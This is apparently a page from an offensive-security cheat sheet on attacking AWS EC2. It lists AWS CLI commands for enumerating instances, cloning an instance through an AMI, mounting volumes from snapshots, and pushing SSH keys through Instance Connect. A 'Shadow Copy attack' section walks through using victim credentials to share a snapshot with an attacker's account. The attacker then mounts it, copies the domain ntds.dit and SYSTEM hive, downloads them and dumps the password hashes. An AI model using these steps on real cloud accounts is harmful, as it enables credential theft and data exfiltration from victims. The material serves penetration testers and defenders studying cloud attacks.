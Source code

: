 # AWS - Service - EC2

* [dufflebag](https://labs.bishopfox.com/dufflebag) - Find secrets that are accidentally exposed via Amazon EBS's "public" mode

## Listing Information About EC2

```ps1
aws ec2 describe-instances
aws ec2 describe-instances --region region
aws ec2 describe-instances --instance-ids ID
```

## Copy EC2 using AMI Image

First you need to extract data about the current instances and their AMI/security groups/subnet : `aws ec2 describe-images --region eu-west-1`

```powershell
# create a new image for the instance-id
$ aws ec2 create-image --instance-id i-0438b003d81cd7ec5 --name "AWS Audit" --description "Export AMI" --region eu-west-1  

# add key to AWS
$ aws ec2 import-key-pair --key-name "AWS Audit" --public-key-material file://~/.ssh/id_rsa.pub --region eu-west-1  

# create ec2 using the previously created AMI, use the same security group and subnet to connect easily.
$ aws ec2 run-instances --image-id ami-0b77e2d906b00202d --security-group-ids "sg-6d0d7f01" --subnet-id subnet-9eb001ea --count 1 --instance-type t2.micro --key-name "AWS Audit" --query "Instances[0].InstanceId" --region eu-west-1

# now you can check the instance 
aws ec2 describe-instances --instance-ids i-0546910a0c18725a1 

# If needed : edit groups
aws ec2 modify-instance-attribute --instance-id "i-0546910a0c18725a1" --groups "sg-6d0d7f01"  --region eu-west-1

# be a good guy, clean our instance to avoid any useless cost
aws ec2 stop-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1 
aws ec2 terminate-instances --instance-id "i-0546910a0c18725a1" --region eu-west-1
```

## Mount EBS volume to EC2 Linux

:warning: EBS snapshots are block-level incremental, which means that every snapshot only copies the blocks (or areas) in the volume that had been changed since the last snapshot. To restore your data, you need to create a new EBS volume from one of your EBS snapshots. The new volume will be a duplicate of the initial EBS volume on which the snapshot was taken.

1. Head over to EC2 –> Volumes and create a new volume of your preferred size and type.
2. Select the created volume, right click and select the "attach volume" option.
3. Select the instance from the instance text box as shown below : `attach ebs volume`

    ```powershell
    aws ec2 create-volume –snapshot-id snapshot_id --availability-zone zone
    aws ec2 attach-volume –-volume-id volume_id –-instance-id instance_id --device device
    ```

4. Now, login to your ec2 instance and list the available disks using the following command : `lsblk`
5. Check if the volume has any data using the following command : `sudo file -s /dev/xvdf`
6. Format the volume to ext4 filesystem  using the following command : `sudo mkfs -t ext4 /dev/xvdf`
7. Create a directory of your choice to mount our new ext4 volume. I am using the name “newvolume” : `sudo mkdir /newvolume`
8. Mount the volume to "newvolume" directory using the following command : `sudo mount /dev/xvdf /newvolume/`
9. cd into newvolume directory and check the disk space for confirming the volume mount : `cd /newvolume; df -h .`

## Shadow Copy attack

**Requirements**:

* EC2:CreateSnapshot
* [Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy)

**Exploit**:

1. Load AWS CLI with Victim Credentials that have at least CreateSnapshot permissions
2. Run `"Describe-Instances"` and show in list for attacker to select
3. Run `"Create-Snapshot"` on volume of selected instance
4. Run `"modify-snapshot-attribute"` on new snapshot to set `"createVolumePermission"` to attacker AWS Account
5. Load AWS CLI with Attacker Credentials
6. Run `"run-instance"` command to create new linux ec2 with our stolen snapshot
7. Ssh run `"sudo mkdir /windows"`
8. Ssh run `"sudo mount /dev/xvdf1 /windows/"`
9. Ssh run `"sudo cp /windows/Windows/NTDS/ntds.dit /home/ec2-user"`
10. Ssh run `"sudo cp /windows/Windows/System32/config/SYSTEM /home/ec2-user"`
11. Ssh run `"sudo chown ec2-user:ec2-user /home/ec2-user/*"`
12. SFTP get `"/home/ec2-user/SYSTEM ./SYSTEM"`
13. SFTP get `"/home/ec2-user/ntds.dit ./ntds.dit"`
14. locally run `"secretsdump.py -system ./SYSTEM -ntds ./ntds.dit local -outputfile secrets'`, expects secretsdump to be on path

## Access Snapshots

1. Get the `owner-id`

    ```powershell
    $ aws --profile flaws sts get-caller-identity
    "Account": "XXXX26262029",
    ```

2. List snapshots

    ```powershell
    $ aws --profile flaws ec2 describe-snapshots --owner-id XXXX26262029 --region us-west-2
    "SnapshotId": "snap-XXXX342abd1bdcb89",
    ```

3. Create a volume using the previously obtained `snapshotId`

    ```powershell
    aws --profile swk ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-XXXX342abd1bdcb89
    ```

4. In AWS console, deploy a new EC2 Ubuntu based, attach the volume and then mount it on the machine.

    ```ps1
    ssh -i YOUR_KEY.pem  ubuntu@ec2-XXX-XXX-XXX-XXX.us-east-2.compute.amazonaws.com
    lsblk
    sudo file -s /dev/xvda1
    sudo mount /dev/xvda1 /mnt
    ```

## Instance Connect

Push an SSH key to EC2 instance

```powershell
# https://aws.amazon.com/fr/blogs/compute/new-using-amazon-ec2-instance-connect-for-ssh-access-to-your-ec2-instances/
$ aws ec2 describe-instances --profile uploadcreds --region eu-west-1 | jq ".[][].Instances | .[] | {InstanceId, KeyName, State}"
$ aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id INSTANCE --availability-zone us-east-1d --instance-os-user ubuntu --ssh-public-key file://shortkey.pub --profile uploadcreds
```

## References

* [How to Attach and Mount an EBS volume to EC2 Linux Instance - AUGUST 17, 2016](https://devopscube.com/mount-ebs-volume-ec2-instance/)
